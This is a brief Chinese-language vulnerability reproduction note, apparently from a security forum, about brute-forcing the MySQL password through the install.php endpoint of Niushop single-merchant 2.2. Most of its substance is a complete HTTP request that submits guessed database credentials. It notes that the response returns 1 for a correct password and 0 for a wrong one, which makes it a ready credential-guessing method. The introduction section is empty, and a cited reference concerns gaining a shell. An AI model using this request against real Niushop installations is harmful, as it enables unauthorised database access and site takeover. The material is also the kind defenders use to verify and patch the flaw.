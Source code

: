 # Niushop 单商户 2.2 爆破MySQL密码

> 原文：[https://www.zhihuifly.com/t/topic/3050](https://www.zhihuifly.com/t/topic/3050)

# Niushop 单商户 2.2 爆破MySQL密码

## 一、漏洞简介

## 二、漏洞影响

Version：单商户 2.2

## 三、复现过程

### 安装爆破MySQL密码

```
GET /niushop/install.php?action=true&dbserver=127.0.0.1&dbpassword=root2&dbusername=root&dbname=niushop_b2c HTTP/1.1
Host: 127.0.0.1
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Referer: http://127.0.0.1/niushop/install.php?refresh
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: action=db
Connection: close 
```

![image](img/0c273b46618a944ffd709f0c0a1e78a7.png)

爆破成功返回1，密码错误返回0

## 参考链接

> https://y4er.com/post/niushop-getshell/